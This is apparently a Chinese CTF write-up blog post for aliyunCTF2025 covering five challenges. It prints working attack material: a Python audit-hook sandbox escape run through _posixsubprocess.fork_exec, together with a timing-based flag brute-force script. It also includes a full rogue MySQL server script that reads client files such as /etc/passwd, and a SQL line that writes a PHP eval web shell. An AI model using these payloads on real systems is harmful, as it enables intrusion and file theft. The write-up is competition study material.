


+++
title = "aliyunCTF2025"
slug = "aliyunctf2025"
description = "燃尽了成绩也不咋地"
date = "2025-02-22T10:10:44"
lastmod = "2025-02-22T10:10:44"
image = ""
license = ""
categories = ["赛题"]
tags = ["jail", "php"]
+++

## ezoj

```python
import os
import subprocess
import uuid
import json
from flask import Flask, request, jsonify, send_file
from pathlib import Path

app = Flask(__name__)

SUBMISSIONS_PATH = Path("./submissions")
PROBLEMS_PATH = Path("./problems")

SUBMISSIONS_PATH.mkdir(parents=True, exist_ok=True)

CODE_TEMPLATE = """
import sys
import math
import collections
import queue
import heapq
import bisect

def audit_checker(event,args):
    if not event in ["import","time.sleep","builtins.input","builtins.input/result"]:
        raise RuntimeError

sys.addaudithook(audit_checker)


"""


class OJTimeLimitExceed(Exception):
    pass


class OJRuntimeError(Exception):
    pass


@app.route("/")
def index():
    return send_file("static/index.html")


@app.route("/source")
def source():
    return send_file("server.py")


@app.route("/api/problems")
def list_problems():
    problems_dir = PROBLEMS_PATH
    problems = []
    for problem in problems_dir.iterdir():
        problem_config_file = problem / "problem.json"
        if not problem_config_file.exists():
            continue

        problem_config = json.load(problem_config_file.open("r"))
        problem = {
            "problem_id": problem.name,
            "name": problem_config["name"],
            "description": problem_config["description"],
        }
        problems.append(problem)

    problems = sorted(problems, key=lambda x: x["problem_id"])

    problems = {"problems": problems}
    return jsonify(problems), 200


@app.route("/api/submit", methods=["POST"])
def submit_code():
    try:
        data = request.get_json()
        code = data.get("code")
        problem_id = data.get("problem_id")

        if code is None or problem_id is None:
            return (
                jsonify({"status": "ER", "message": "Missing 'code' or 'problem_id'"}),
                400,
            )

        problem_id = str(int(problem_id))
        problem_dir = PROBLEMS_PATH / problem_id
        if not problem_dir.exists():
            return (
                jsonify(
                    {"status": "ER", "message": f"Problem ID {problem_id} not found!"}
                ),
                404,
            )

        code_filename = SUBMISSIONS_PATH / f"submission_{uuid.uuid4()}.py"
        with open(code_filename, "w") as code_file:
            code = CODE_TEMPLATE + code
            code_file.write(code)

        result = judge(code_filename, problem_dir)

        code_filename.unlink()

        return jsonify(result)

    except Exception as e:
        return jsonify({"status": "ER", "message": str(e)}), 500


def judge(code_filename, problem_dir):
    test_files = sorted(problem_dir.glob("*.input"))
    total_tests = len(test_files)
    passed_tests = 0

    try:
        for test_file in test_files:
            input_file = test_file
            expected_output_file = problem_dir / f"{test_file.stem}.output"

            if not expected_output_file.exists():
                continue

            case_passed = run_code(code_filename, input_file, expected_output_file)

            if case_passed:
                passed_tests += 1

        if passed_tests == total_tests:
            return {"status": "AC", "message": f"Accepted"}
        else:
            return {
                "status": "WA",
                "message": f"Wrang Answer: pass({passed_tests}/{total_tests})",
            }
    except OJRuntimeError as e:
        return {"status": "RE", "message": f"Runtime Error: ret={e.args[0]}"}
    except OJTimeLimitExceed:
        return {"status": "TLE", "message": "Time Limit Exceed"}


def run_code(code_filename, input_file, expected_output_file):
    with open(input_file, "r") as infile, open(
        expected_output_file, "r"
    ) as expected_output:
        expected_output_content = expected_output.read().strip()

        process = subprocess.Popen(
            ["python3", code_filename],
            stdin=infile,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True,
        )

        try:
            stdout, stderr = process.communicate(timeout=5)
        except subprocess.TimeoutExpired:
            process.kill()
            raise OJTimeLimitExceed

        if process.returncode != 0:
            raise OJRuntimeError(process.returncode)

        if stdout.strip() == expected_output_content:
            return True
        else:
            return False


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

是沙箱逃逸，绕过这个钩子函数

```python
print(sum(map(int, input().split())))
```

```sh
#!/bin/bash

# 更新软件包列表
sudo apt update
sudo apt upgrade -y

# 安装必要的依赖
sudo apt install -y build-essential libssl-dev libbz2-dev libreadline-dev libsqlite3-dev wget curl llvm libffi-dev python3-openssl git

# 下载 Python 3.12.9
cd /tmp
wget https://www.python.org/ftp/python/3.12.9/Python-3.12.9.tgz

# 解压缩下载的文件
tar -xvf Python-3.12.9.tgz
cd Python-3.12.9

# 配置、编译和安装
./configure --enable-optimizations
make -j $(nproc)
sudo make altinstall

# 确认安装成功
python3.12 --version

# 安装虚拟环境工具
sudo apt install -y python3.12-venv

# 创建一个新的虚拟环境
mkdir ~/myenvs
python3.12 -m venv ~/myenvs/py3.12.9

echo "Python 3.12.9 安装完成，虚拟环境已创建在 ~/myenvs/py3.12.9"
```

```
source ~/myenvs/py3.12.9/bin/activate
deactivate
```

绕过方法也是在网上查到的，知道这个函数可以不会触发钩子并且可以RCE [文章](https://dummykitty.github.io/python/2023/05/30/pyjail-bypass-07-%E7%BB%95%E8%BF%87-audit-hook.html#%E5%85%B6%E4%BB%96%E4%B8%8D%E8%A7%A6%E5%8F%91-hook-%E7%9A%84%E6%96%B9%E5%BC%8F)



```python
print(sum(map(int, input().split())))
import os
import _posixsubprocess
_posixsubprocess.fork_exec([b"/bin/bash","-c","if [ $(head -n 1 /f* | cut -c 1) == 'a' ]; then sleep 5; fi;"], [b"/bin/bash"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

然后写脚本，你们看我的字符表全是细节，前面几个字符都是我手动注入的，所以直接加

```python
import requests
url="http://121.41.238.106:43953/api/submit"
target="aliyunctf{3"
char_set = "abcdef0123456789{}-ghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
for i in range(12,50):
    for j in char_set:
        payload=f"print(sum(map(int, input().split())))\nimport os\nimport _posixsubprocess\n_posixsubprocess.fork_exec([b\"/bin/bash\",\"-c\",\"if [ $(head -n 1 /f* | cut -c {i}) == '{j}' ]; then sleep 5; fi;\"], [b\"/bin/bash\"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)"
        burp0_json={"problem_id":"0","code": payload,}

        print(j)
        r=requests.post(url,json=burp0_json)
        if "Time Limit Exceed" in r.text:
            print(f"第{i}个字符是{j}")
            target+=j
            break
            print(target)

```

```
aliyunctf{3a1dd248-b636-41af-9b23-7540e7e63ebc}
```

看着简单吧，来的真不容易啊，呜呜呜

## 哈基游(remake)

```php
<?php
$wrappers = stream_get_wrappers();
foreach ($wrappers as $wrapper) {
    if ($wrapper === 'file') {
        continue;
    }
    @stream_wrapper_unregister($wrapper);
}
?>
```

只保存了`file`文件流，也就是说只有`file`协议可以用了，

```php
<?php
$func_template = 'function check($file_hash, %s) { if ($file_hash !== "5baf19ce6561538119dfe32d561d6ab8509703606f768fea72723a01ee4264b7") { echo "%s not cached"; } }';
$cached_key = isset($_GET['c']) ? $_GET['c'] : '$f_0';
if (!preg_match('/^[a-zA-Z0-9_\$]{1,5}$/', $cached_key)) {
        die('Invalid cached key');
}
$func = sprintf($func_template, $cached_key, $cached_key);
eval($func);
if (isset($_GET['h']) && isset($_GET['algo']) && isset($_GET['file'])) {
    $file_hash = hash_file($_GET['algo'], $_GET['file']);
    check($file_hash, $_GET['file']);
} else {
    phpinfo();
}
?>
```

会创建一个函数，然后利用函数来进行check，也就是说必须要hash相等才可以，单独把这个函数拿出来看看

```php
<?php
function check($file_hash,%s){
    if ($file_hash !== "5baf19ce6561538119dfe32d561d6ab8509703606f768fea72723a01ee4264b7"){
        echo "%s not cached";
    }
}
```

其中这个`%s`的要求就是1-5位，自己去正则网站匹配一下就知道了，但是我感觉可以不设置的，重要的就是如何过hash然后进行文件读取，并且`h`这个参数是没有任何作用的，查看官方文档



发现支持很多算法，其中也有不安全的算法，比如说CRC，在给定足够多的不同CRC校验码的情况下，可以恢复出校验前的内容。我们可以通过把`%s`设置为`int`类型，然后再传入字符串进行报错得到部分信息

```
?c=int$c&algo=crc32&file=/flag&h=1
316abacb

?c=int$c&algo=crc32b&file=/flag&h=1
634894db

?c=int$c&algo=crc32c&file=/flag&h=1
9b821287
```

拿到三组数据，Dockerfile里面可以得到flag的字符数量

```dockerfile
RUN echo "aliyunctf{`head /dev/urandom | tr -dc A-Za-z0-9 | head -c 15`}" > /flag
```

可以进行爆破，恢复flag

## Rust Action(remake)

```
scp -r rust_action_3b2f22ed9cf639662353fdf583070c965fb09a29a1afd3e0095ddc08bd2cc7b7 root@156.238.233.93:/opt/docker
```

文件上传的地方没有检查出文件类型

```RUST
pub async fn upload_job(mut multipart: Multipart) -> Result<String, AppError> {
    if !&CONFIG.workflow.jobs.enable {
        return Err(AppError(anyhow::anyhow!("Jobs module is disabled")));
    }

    let Some(field) = multipart.next_field().await? else {
        return Err(AppError(anyhow::anyhow!("No file uploaded")));
    };

    let id = Uuid::new_v4();
    let target_dir = std::path::Path::new(&CONFIG.workflow.jobs.dir).join(id.to_string());
    fs::create_dir_all(&target_dir).await?;

```

运行任务的地方直接进行了命令执行

```rust
pub async fn run_job(Path(id): Path<Uuid>) -> Result<String, AppError> {
    let job = DB.get_job(id).ok_or_else(|| anyhow::anyhow!("Job not found"))?;

    let output = Command::new(&job.command)
        .args(&job.args)
        .output()
        .await?;
```

下载文件的地方可以进行目录遍历

```rust
pub async fn download_artifact(Path(id): Path<Uuid>) -> Result<impl IntoResponse, AppError> {
    let artifact = DB.get_artifact(id).ok_or_else(|| anyhow::anyhow!("Artifact not found"))?;
    let file_path = std::path::Path::new(&CONFIG.artifacts.dir).join(&artifact.filename);

    let file = fs::read(file_path).await?;
    Ok((HeaderMap::new(), file))
}
```

但是经过尝试之后发现不出问题，查看WP，**利用 Rust 的过程宏在编译期间执行代码**，呆jio不，看官方WP吧，我也没看太懂这个题 [RUST官方WP](https://xz.aliyun.com/news/17029?time__1311=eqUxn7DQoYqGT4mqGXnjAQDkbGOF1KWq4D&u_atoken=cc7f8bb5b00c15cb0b0a3312cb98f4bf&u_asig=1a0c39d517404603003685401e0143)

## mba

```
scp -r distrib root@156.238.233.93:/opt/docker

docker build -t mba .
docker run -it --name mba_container -p 9048:9048 mba
```


把代码甩给GPT，给了一个恒真式

```python
def check_expression(t: z3.Tactic, e: MBAExpr) -> bool:
  expr = e.to_z3expr(64)
  s = t.solver()
  s.add(expr != expr)

  s.set('timeout', 30000)   # 30 seconds
  r = s.check()
  if r == z3.unknown:
    print("Solver timed out")
    exit(1)
  return r == z3.unsat
```

**检查一个 `MBAExpr` 表达式是否始终等于自身**。
但因为 `expr != expr` **永远是 False**，所以 Z3 只会返回 `unsat`，这个函数永远返回 `True`，输入长度不能超过 200 字符。表达式的项数不能超过 15 项

```
nc 121.41.238.106 50423

(x^x)+(x^x)+(x^x)+(x^x)+(x^x)+(x^x)+(x^x)+(x^x)+(x^x)+(x^x)+(x^x)+(x^x)
It works
# 诶一个神奇的现象发生了，因为公式过于复杂导致他超时，那我直接加大，让他溢出，返回不了true
Please enter the expression: (x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)
Solver timed out
# 我想的是直接把项数也给加大，结果不然，他没超时了
root@dkhkv2c52uxRFLESq7AS:~# nc 121.41.238.106 50423
Please enter the expression: (x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)
It works!
^C
root@dkhkv2c52uxRFLESq7AS:~# nc 121.41.238.106 50423
Please enter the expression: (x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)
It works!
^C
root@dkhkv2c52uxRFLESq7AS:~# nc 121.41.238.106 50423
Please enter the expression: (x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)+(x^y)
Solver timed out
```

那么也就是说必须是十二项，而且还要加大系数

```
1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)+1000000000*(x^y)
Expression is too long

9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)+9999999*(x^y)
It works!

99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)+99999999*(x^y)
aliyunctf{0c83f9d9-a3a6-4664-a819-14d4376f2cbf}
```

```python
a = "99999999*(x^y)+" * 13
if len(a) < 200:
    print(a)
x = 1
y = 1
if (x ^ y) == (x ^ y):
    print(1)

```

但是由于着急，我并没有给13改成12一样成功了，相当于是整型溢出的漏洞，也就是总数达到一个值就够了，不是说非要怎么这么样

## 打卡OK

扫出来可以用`/index.php~`来泄露源码，收集了

```php
<?php
$servername = "localhost";
$username = "web";
$password = "web";
$dbname = "web";
$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("连接失败: " . $conn->connect_error);
}
session_start();
include './pass.php';
if(isset($_POST['username']) and isset($_POST['password'])){
    $username=addslashes($_POST['username']);
    $password=$_POST['password'];
    $code=$_POST['code'];
    $endpass=md5($code.$password).':'.$code;
    $sql = "select password from users where username='$username'";
    $result = $conn->query($sql);
    if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
            if($endpass==$row['password']){
            $_SESSION['login'] = 1;
            $_SESSION['username'] = md5($username);
            echo "<script>alert(\"Welcome $username!\");window.location.href=\"./index.php\";</script>";
            }
        }
    } else {
        echo "<script>alert(\"错误\");</script>";
      die();
    }
    $conn->close();
    
}
?>
```

有这个函数`addslashes`不太可能注入了，然后看看看发现一点用没有，最后题目名字是个文件，这他妈也太抽象了吧`/ok.php~`，然后复现这个CVE，

```
create database adminer;
use adminer; 
create table test(text text(4096)); 
select * from test;
sudo cat /etc/mysql/debian.cnf
```

然后链接，发现不对啊，读不出来，一直报错并且我尝试了，脚本是对的

```python
from socket import AF_INET, SOCK_STREAM, error
from asyncore import dispatcher, loop as _asyLoop
from asynchat import async_chat
from struct import Struct
from sys import version_info
from logging import getLogger, INFO, StreamHandler, Formatter

_rouge_mysql_sever_read_file_result = {

}
_rouge_mysql_server_read_file_end = False


def checkVersionPy3():
    return not version_info < (3, 0)


def rouge_mysql_sever_read_file(fileName, port, showInfo):
    if showInfo:
        log = getLogger(__name__)
        log.setLevel(INFO)
        tmp_format = StreamHandler()
        tmp_format.setFormatter(Formatter("%(asctime)s : %(levelname)s : %(message)s"))
        log.addHandler(
            tmp_format
        )

    def _infoShow(*args):
        if showInfo:
            log.info(*args)

    # ================================================
    # =======No need to change after this lines=======
    # ================================================

    __author__ = 'Gifts'
    __modify__ = 'Morouu'

    global _rouge_mysql_sever_read_file_result

    class _LastPacket(Exception):
        pass

    class _OutOfOrder(Exception):
        pass

    class _MysqlPacket(object):
        packet_header = Struct('<Hbb')
        packet_header_long = Struct('<Hbbb')

        def __init__(self, packet_type, payload):
            if isinstance(packet_type, _MysqlPacket):
                self.packet_num = packet_type.packet_num + 1
            else:
                self.packet_num = packet_type
            self.payload = payload

        def __str__(self):
            payload_len = len(self.payload)
            if payload_len < 65536:
                header = _MysqlPacket.packet_header.pack(payload_len, 0, self.packet_num)
            else:
                header = _MysqlPacket.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

            result = "".join(
                (
                    header.decode("latin1") if checkVersionPy3() else header,
                    self.payload
                )
            )

            return result

        def __repr__(self):
            return repr(str(self))

        @staticmethod
        def parse(raw_data):
            packet_num = raw_data[0] if checkVersionPy3() else ord(raw_data[0])
            payload = raw_data[1:]

            return _MysqlPacket(packet_num, payload.decode("latin1") if checkVersionPy3() else payload)

    class _HttpRequestHandler(async_chat):

        def __init__(self, addr):
            async_chat.__init__(self, sock=addr[0])
            self.addr = addr[1]
            self.ibuffer = []
            self.set_terminator(3)
            self.stateList = [b"LEN", b"Auth", b"Data", b"MoreLength", b"File"] if checkVersionPy3() else ["LEN",
                                                                                                           "Auth",
                                                                                                           "Data",
                                                                                                           "MoreLength",
                                                                                                           "File"]
            self.state = self.stateList[0]
            self.sub_state = self.stateList[1]
            self.logined = False
            self.file = ""
            self.push(
                _MysqlPacket(
                    0,
                    "".join((
                        '\x0a',  # Protocol
                        '5.6.28-0ubuntu0.14.04.1' + '\0',
                        '\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00',
                    )))
            )

            self.order = 1
            self.states = [b'LOGIN', b'CAPS', b'ANY'] if checkVersionPy3() else ['LOGIN', 'CAPS', 'ANY']

        def push(self, data):
            _infoShow('Pushed: %r', data)
            data = str(data)
            async_chat.push(self, data.encode("latin1") if checkVersionPy3() else data)

        def collect_incoming_data(self, data):
            _infoShow('Data recved: %r', data)
            self.ibuffer.append(data)

        def found_terminator(self):
            data = b"".join(self.ibuffer) if checkVersionPy3() else "".join(self.ibuffer)
            self.ibuffer = []

            if self.state == self.stateList[0]:  # LEN
                len_bytes = data[0] + 256 * data[1] + 65536 * data[2] + 1 if checkVersionPy3() else ord(
                    data[0]) + 256 * ord(data[1]) + 65536 * ord(data[2]) + 1
                if len_bytes < 65536:
                    self.set_terminator(len_bytes)
                    self.state = self.stateList[2]  # Data
                else:
                    self.state = self.stateList[3]  # MoreLength
            elif self.state == self.stateList[3]:  # MoreLength
                if (checkVersionPy3() and data[0] != b'\0') or data[0] != '\0':
                    self.push(None)
                    self.close_when_done()
                else:
                    self.state = self.stateList[2]  # Data
            elif self.state == self.stateList[2]:  # Data
                packet = _MysqlPacket.parse(data)
                try:
                    if self.order != packet.packet_num:
                        raise _OutOfOrder()
                    else:
                        # Fix ?
                        self.order = packet.packet_num + 2
                    if packet.packet_num == 0:
                        if packet.payload[0] == '\x03':
                            _infoShow('Query')

                            self.set_terminator(3)
                            self.state = self.stateList[0]  # LEN
                            self.sub_state = self.stateList[4]  # File
                            self.file = fileName.pop(0)

                            # end
                            if len(fileName) == 1:
                                global _rouge_mysql_server_read_file_end
                                _rouge_mysql_server_read_file_end = True

                            self.push(_MysqlPacket(
                                packet,
                                '\xFB{0}'.format(self.file)
                            ))
                        elif packet.payload[0] == '\x1b':
                            _infoShow('SelectDB')
                            self.push(_MysqlPacket(
                                packet,
                                '\xfe\x00\x00\x02\x00'
                            ))
                            raise _LastPacket()
                        elif packet.payload[0] in '\x02':
                            self.push(_MysqlPacket(
                                packet, '\0\0\0\x02\0\0\0'
                            ))
                            raise _LastPacket()
                        elif packet.payload == '\x00\x01':
                            self.push(None)
                            self.close_when_done()
                        else:
                            raise ValueError()
                    else:
                        if self.sub_state == self.stateList[4]:  # File
                            _infoShow('-- result')
                            # fileContent
                            _infoShow('Result: %r', data)
                            if len(data) == 1:
                                self.push(
                                    _MysqlPacket(packet, '\0\0\0\x02\0\0\0')
                                )
                                raise _LastPacket()
                            else:
                                self.set_terminator(3)
                                self.state = self.stateList[0]  # LEN
                                self.order = packet.packet_num + 1

                            global _rouge_mysql_sever_read_file_result
                            _rouge_mysql_sever_read_file_result.update(
                                {self.file: data.encode() if not checkVersionPy3() else data}
                            )

                            # test
                            # print(self.file + ":\n" + content.decode() if checkVersionPy3() else content)

                            self.close_when_done()

                        elif self.sub_state == self.stateList[1]:  # Auth
                            self.push(_MysqlPacket(
                                packet, '\0\0\0\x02\0\0\0'
                            ))
                            raise _LastPacket()
                        else:
                            _infoShow('-- else')
                            raise ValueError('Unknown packet')
                except _LastPacket:
                    _infoShow('Last packet')
                    self.state = self.stateList[0]  # LEN
                    self.sub_state = None
                    self.order = 0
                    self.set_terminator(3)
                except _OutOfOrder:
                    _infoShow('Out of order')
                    self.push(None)
                    self.close_when_done()
            else:
                _infoShow('Unknown state')
                self.push('None')
                self.close_when_done()

    class _MysqlListener(dispatcher):
        def __init__(self, sock=None):
            dispatcher.__init__(self, sock)

            if not sock:
                self.create_socket(AF_INET, SOCK_STREAM)
                self.set_reuse_addr()
                try:
                    self.bind(('', port))
                except error:
                    exit()

                self.listen(1)

        def handle_accept(self):
            pair = self.accept()

            if pair is not None:
                _infoShow('Conn from: %r', pair[1])
                _HttpRequestHandler(pair)

                if _rouge_mysql_server_read_file_end:
                    self.close()

    _MysqlListener()
    _asyLoop()
    return _rouge_mysql_sever_read_file_result


if __name__ == '__main__':

    for name, content in rouge_mysql_sever_read_file(fileName=["/etc/passwd", "/etc/hosts"], port=3307,showInfo=True).items():
        print(name + ":\n" + content.decode())
```

后面发现是弱密码`localhost\root\root\Adminer`

```
select "<?php @eval($_POST[1]);?>" into outfile '/var/www/html/1.php'
```

就在根目录，我一紧张没看到这个`/Ali_t1hs_1sflag_2025`


